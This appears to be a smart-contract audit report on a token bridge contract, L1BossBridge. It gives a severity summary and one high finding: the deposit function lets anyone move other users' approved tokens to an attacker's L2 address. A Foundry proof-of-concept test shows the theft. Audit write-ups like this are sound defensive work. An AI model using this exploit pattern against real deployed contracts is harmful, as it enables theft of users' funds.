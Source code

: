 # Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 8                      |
| Medium   | 1                      |
| Low      | 3                      |
| Info     | 1                      |
| Gas      | 0                      |
| Total    | 13                      |

# Findings

## High 

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assest stolen

**Description:** The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

**Impact:** As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

**Proof of Concept:** Include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```
